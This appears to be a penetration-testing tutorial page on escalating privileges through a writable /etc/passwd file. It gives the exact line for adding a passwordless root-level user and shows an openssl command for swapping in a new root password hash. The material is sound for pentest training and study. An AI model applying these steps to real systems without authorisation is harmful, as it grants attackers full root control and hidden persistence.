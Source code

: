 # /etc/passwd
If we have write permissions in the `/etc/passwd` file we can perform two different types of attack.

![0](https://github.com/PentesterArchive/Privilege-Escalation/assets/161533623/4f6daac4-2309-42c9-a56c-659b7b8e4ee7)


## Creating a new user. 
We can just write a new user with root privileges.
`pentester:` -> Username.
`:::` -> No password.
`0:` -> User ID (UID). If UID = 0 means that our user has superuser privileges.
`0:` -> Group ID (GID). If GID = 0 means that we are part of the root group.
`,,,::` -> Empty camps.
`/:` -> Home directory.
`/bin/bash` -> User shell.
```bash
pentester::0:0:,,,:/:/bin/bash
```



![1](https://github.com/PentesterArchive/Privilege-Escalation/assets/161533623/2fac5e71-2c05-43f3-b1ad-8ae80b4cbdf0)


![2](https://github.com/PentesterArchive/Privilege-Escalation/assets/161533623/44e76eb7-0475-48a7-870f-20266e2fa59f)




### Changing root password.
The second technique we are going to exploit is very similar. The difference between them resides in the fact that instead of creating a new user, this time we are going to change root password. 
In our local machine we are going to execute `openssl` to create the new password:
```
openssl passwd <newPassword>
```
![4](https://github.com/PentesterArchive/Privilege-Escalation/assets/161533623/38d831ea-b1bc-42a6-8896-3756da2ca869)



And then we just have to switch the `x` in the password field.

![5](https://github.com/PentesterArchive/Privilege-Escalation/assets/161533623/b2f4fe37-8f7b-42c4-a4fc-cb81b1898e17)


![6](https://github.com/PentesterArchive/Privilege-Escalation/assets/161533623/4187491e-310e-4652-b2c7-65c03303042b)


